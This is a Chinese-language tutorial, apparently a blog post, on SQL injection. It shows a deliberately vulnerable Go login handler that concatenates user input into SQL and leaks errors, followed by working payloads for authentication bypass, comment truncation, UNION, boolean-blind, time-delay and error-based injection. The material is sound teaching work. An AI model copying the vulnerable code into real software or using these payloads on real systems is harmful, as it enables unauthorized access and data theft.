 ```yaml
---
title: SQL Inject
createTime: 2025-1-27
author: ZQ
permalink: /network/webserver/sql/inject/
tags:
  - web
---
```


## 概述

SQL注入（SQL Injection）是一种常见的网络安全漏洞，攻击者通过在应用程序的输入字段中插入恶意的SQL代码，来操控后台数据库，从而获取、篡改或删除数据。

###  原理

+ 输入验证不足：应用程序在处理用户输入时，没有对输入内容进行充分的验证和过滤，直接将用户输入拼接到SQL查询语句中。
+ 动态构造SQL语句：应用程序使用动态的方式构造SQL语句，将用户输入作为查询条件的一部分。
+ 执行恶意SQL代码：攻击者通过特制的输入，插入或修改SQL语句的结构，使其执行非预期的数据库操作。

## 实验

### `unsafe login`接口

使用`gin`启动一个`unsafe login` 接口，这里给出接口的实现。可以在[github](https://github.com/Zqzqsb/WebSecurityDemos/tree/main/SQL_Inject)查看完整示例。

```go
// Unsafe login method - vulnerable to SQL injection
func unsafeLogin(c *gin.Context) {
        username := c.PostForm("username")
        password := c.PostForm("password")

        // Simulate some delay for time-based injection detection
        if strings.Contains(strings.ToLower(username), "sleep") {
                time.Sleep(2 * time.Second)
        }

        // Dangerous: directly concatenating SQL statements
        var result map[string]interface{}
        // Changed the query format to make basic authentication bypass work
        sql := fmt.Sprintf("SELECT * FROM users WHERE username='%s' AND password='%s'", username, password)

        // Log the SQL query for demonstration
        log.Printf("Executing SQL: %s", sql)

        err := db.Raw(sql).Scan(&result).Error

        if err != nil {
                // Return error message for error-based injection demonstration
                c.JSON(http.StatusBadRequest, gin.H{
                        "message": fmt.Sprintf("Login failed with error: %v", err),
                })
                return
        }

        if len(result) > 0 {
                c.JSON(http.StatusOK, gin.H{
                        "message": "Login successful",
                        "user":    result,
                })
        } else {
                c.JSON(http.StatusUnauthorized, gin.H{
                        "message": "Login failed: Invalid credentials",
                })
        }
}
```


应用程序的登录查询如下：

```sql
SELECT * FROM users WHERE username = '输入的用户名' AND password = '输入的密码';
```


### 基础认证绕过

基础认证绕过是一种最简单的SQL注入攻击方式，攻击者通过构造特定的输入，使SQL查询条件始终为真，从而绕过身份验证。

当攻击者在用户名或密码字段中输入`' OR '1'='1`时，SQL语句变为：

```sql
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '';
```

由于`'1'='1'`始终为真，整个WHERE条件成立，数据库将返回所有用户记录，通常会导致攻击者成功登录。

###  注释型注入

注释型

注入利用SQL的注释符号（如`--`）截断原有的SQL语句，忽略后续的条件，从而改变查询

攻击者在用户名字段输入`admin'--`，SQL语句变为：

```sql
SELECT * FROM users WHERE username = 'admin'--' AND password = '';
```

这样，密码验证被绕过，攻击者以`admin`用户身份登录。

### UNION查询注入

UNION查询注入通过使用SQL的`UNION`操作符，将恶意查询的结果与原始查询结果合并，攻击者可以借此获取数据库中其他表或数据的信息。

```sql
SELECT id, username, password, role FROM users WHERE username = 'admin' UNION SELECT 1 as id, 'hacker' as username, 'pwned' as password, 'admin' as role --';
```

这将返回两条记录：一条是`admin`用户的真实记录，另一条是攻击者注入的虚假记录。攻击者可以利用这种方式获取敏感信息或提升权限。

### 布尔盲注

布尔盲注在应用程序不直接显示数据库错误信息时使用，攻击者通过构造不同的条件，观察应用程序响应的真假情况，逐步推断出数据库的信息。

假设应用程序根据SQL查询的结果显示不同的页面内容。攻击者输入`admin' AND (SELECT CASE WHEN (1=1) THEN 1 ELSE 0 END)='1`，SQL语句变为：

```sql
SELECT * FROM users WHERE username = 'admin' AND (SELECT CASE WHEN (1=1) THEN 1 ELSE 0 END)='1';
```


###  时间延迟注入

攻击者输入`admin' AND (SELECT CASE WHEN (1=1) THEN sqlite3_sleep(2000) ELSE 1 END)='1`，SQL语句变为：

```sql
SELECT * FROM users WHERE username = 'admin' AND (SELECT CASE WHEN (1=1) THEN sqlite3_sleep(2000) ELSE 1 END)='1';
```

### 报错注入

报错注入通过诱使数据库生成错误信息，攻击者可以利用这些错误信息获取数据库的结构和其他敏感信息。

假设应用程序在查询失败时会显示数据库错误信息。攻击者输入`admin' AND (SELECT CASE WHEN (1=1) THEN CAST('a' AS INTEGER) ELSE 1 END)='1`，SQL语句变为：

```sql
SELECT * FROM users WHERE username = 'admin' AND (SELECT CASE WHEN (1=1) THEN CAST('a' AS INTEGER) ELSE 1 END)='1';
```

由于`CAST('a' AS INTEGER)`在SQL中会导致类型转换错误，数据库会返回错误信息。攻击者可以通过分析这些错误信息，了解数据库的结构和类型，进一步进行攻击。
